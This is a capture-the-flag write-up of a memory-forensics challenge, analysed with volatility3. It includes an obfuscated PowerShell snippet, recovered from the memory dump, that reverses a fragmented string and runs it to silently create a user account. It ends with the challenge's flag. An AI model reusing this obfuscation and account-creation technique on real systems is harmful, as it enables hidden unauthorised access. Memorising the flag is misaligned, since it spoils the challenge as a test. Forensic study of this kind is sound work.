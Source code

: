 ![image](https://github.com/user-attachments/assets/96a3873c-7886-4df0-9ab1-e639ff9ebfbf)

Download the file and extract it.

![image](https://github.com/user-attachments/assets/0b68dcc0-76d2-4ef7-a2b0-081afbd6ccfb)

![image](https://github.com/user-attachments/assets/e20b7a2c-7e46-48c1-99e1-6a8fb6983add)

We got 2 files here which is .vmem and .vmsn.

![image](https://github.com/user-attachments/assets/55c50539-3399-422d-8701-f85cd52546ac)

Upon checking with chatgpt, it looks like both of these files were for memory analysis

![image](https://github.com/user-attachments/assets/264eed52-9980-4ba6-b66a-4b423d1e46db)

![image](https://github.com/user-attachments/assets/6c72dd41-3d5d-41d5-8f9b-e760a5c1d57f)

So lets, copy and paste it into my WSL and use volatility3

![image](https://github.com/user-attachments/assets/a4343e73-8853-4c39-ae93-5a4e6e38abb9)

So now our objective is to find the created user. User could be created using cmd and powershell which is an executable, so based on my notes these are the commands that could be helpful for us.

![image](https://github.com/user-attachments/assets/4bf2b573-dbf1-4a19-b665-a72eab84d03a)

Lets try pslist first.

![image](https://github.com/user-attachments/assets/5dc51c1f-2cd4-4e47-bade-fb34822a4084)

![image](https://github.com/user-attachments/assets/49896d80-cbd3-4c7f-86ce-811fca5f3177)

Ok, there was indeed cmd and powershell's execution there. Lets use pstree now.

![image](https://github.com/user-attachments/assets/e500f8fe-b801-4e01-91d9-a6a0805137a9)

Yep! Looks like its base64 encoded. Lets decode it.

![image](https://github.com/user-attachments/assets/aa010481-0aeb-431c-b429-82f355f6c2cb)

Ok, so far so good. Looks like its still being encode but at least we got a readable now. `$laIIMq = 'dd' + 'a/' + ' ni' + 'mdAS' + 'YS n' + 'i' + 'md' + 'asys ' + 'r' + 'es' + 'u t' + 'en'; $kSmmAiw = -join ($laIIMq.ToCharArray()[-1..-($laIIMq.Length)]); Invoke-Expression $kSmmAiw ; Start-Sleep -Seconds 600` this looks like it was assigning a value to a variable. Powershell could be used in this case to act as programming language like c++ based on my experience. Lets try.

![image](https://github.com/user-attachments/assets/76934c39-ed12-4427-b871-5876fccc5769)

Ok, now we got the full command. Lets ask chatgpt to analyse it what does the command do.

![image](https://github.com/user-attachments/assets/26eeb3c0-3276-40d3-a957-0878fd798d6f)

We instantly got our answer for our flag which is `ihack{created user_created password}` and this case our flag is `ihack{sysadmin_SYSAdmin}`








